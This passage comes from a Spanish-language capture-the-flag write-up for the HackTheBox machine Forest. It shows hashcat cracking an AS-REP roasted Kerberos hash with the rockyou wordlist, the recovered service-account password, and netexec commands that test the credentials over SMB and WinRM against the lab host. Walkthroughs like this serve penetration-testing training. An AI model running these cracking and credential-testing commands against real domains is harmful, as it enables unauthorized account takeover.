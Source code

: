 Como hemos redirigido el output a hashes.asreproast, no hace falta que nos copiemos el contenido del hash.

Vamos a utilizar hashcat para romper este hash. Si te pasa como a mí que no memorizas los códigos de identificación de hashcat (para este caso ``krb5asrep$23$``), puede averiguarse fácilmente:

``hashcat --help | grep -i "kerberos"``

![10](Images/10.png)


Una vez sabemos el código de identificación interno de hashcat (18200), lo lanzamos con rockyou como diccionario.

``hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force ``

![11](Images/11.png)

Nos ha proporcionado una contraseña para el usuario svc_alfresco : s3rvice

No deberíamos tener problema con estas credenciales, pero por metodología vamos a validarlas:

``netexec smb 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'``

![12](Images/12.png)

Confirmamos que son credenciales válidas. Vamos a comprobar si permite winrm porque el usuario svc_alfresco forme parte del grupo Remote Management Users.

``netexec winrm 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'``

![13](Images/13.png)

